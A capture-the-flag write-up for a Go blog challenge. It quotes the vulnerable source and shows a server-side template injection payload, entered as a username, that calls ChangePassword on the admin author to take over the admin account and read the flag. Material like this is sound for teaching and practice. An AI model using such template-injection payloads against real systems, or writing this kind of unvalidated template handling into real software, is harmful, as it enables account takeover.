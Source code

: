# My sky blog

### Information
- http://REDACTED
- src/ (source code in go)


```go
var randomSentences = []string{
	"Hey, %s; there are %d posts right now !",
	"What's up %s ? We're at %d ! Aiming for the stars !",
	"Want a coffee %s ? Ofc there's %d posts in here !",
	"Hello there, General %s, have you seen ? There's %d posts !",
}
```

This portion is vunerable to SSTI (Server Side Tempalte Injectoin)
Cette portion est vulnerable au SSTI (Server Side Tempalte Injectoin)

When we create a new user, there is no validation
```go
func register(c echo.Context) error {
	s := c.Get("session").(*Session)

	templatePath := "templates/register.html"
	tpl := template.Must(template.ParseFiles(templatePath))

	if c.Request().Method == "POST" {
		username := c.FormValue("username")
		password := c.FormValue("password")

		user := &User{
			Username: username,
		}

		user.ChangePassword(password)

		for _, u := range s.users {
			if u.Username == user.Username {
				s.HasError = true
				s.Error = "Username already taken"
				return tpl.Execute(c.Response().Writer, s)
			}
		}

		s.users = append(s.users, user)

		logrus.Infof("Registered user %s on sessions %s", user.Username, s.id)

		return c.Redirect(302, "/login")
	} else {
		return tpl.Execute(c.Response().Writer, s)
	}
}
```

The URI `/flag` contain our flag

```go
func flag(c echo.Context) error {
	s := c.Get("session").(*Session)

	if s.User == nil {
		return c.Redirect(http.StatusFound, "/login")
	}

	if !s.User.isAdmin {
		return c.String(http.StatusForbidden, "You are not an admin")
	}

	def := "4T${...}"
	flag := os.Getenv("FLAG")
	if flag != "" {
		def = flag
	}

	return c.String(http.StatusOK, def)
}
```

We must be `admin` to access it

One last thing
```go
func CreateEmptySession() *Session {
	admin := &User{
		isAdmin:  true,
		Username: "admin",
	}

	// Get a random password
	randomPassword := uuid.New().String()

	admin.ChangePassword(randomPassword)

	id := uuid.New().String()

	return &Session{
		users: []*User{
			admin,
		},
		id: id,

		User: nil,
		Posts: []*Post{
			{
				Author:    admin,
				Title:     "Welcome to my beautiful Sky Blog!",
				Body:      "I welcome you to my blog, where I'll post about my adventures in the sky !",
				UpdatedAt: time.Date(2024, 5, 1, 12, 54, 30, 20, time.UTC),
			},
		},
		NbPosts: 1,
	}
}
```
There is always 1 post as `admin`

If we follow the `struct`

```go
type Post struct {
	Author *User # <------ This is public !!!
	Title  string
	Body   string

	UpdatedAt time.Time
}

type User struct {
	isAdmin  bool # <--------- private :(
	Username string
	Password string
}
```

But we can call the ChangePassword method!
``` go
func (u *User) ChangePassword(password string) bool {
	logrus.Infof("Changing password for user %s", u.Username)

	h := sha256.New()
	h.Write([]byte(password))

	u.Password = hex.EncodeToString(h.Sum(nil))

	return true
}
```


Testing for SSTI by creating a new user: `{{.}}` 

It work! So lets try to change the password of admin `{{range .Posts}}{{.Author.ChangePassword "platypusJovial"}}{{end}}`

Once I logged in as that user, the password of admin should change:
- logout
- login with admin:platypusJovial


```4T${w417_H0w_d1D_Y0u_d0_7h12}```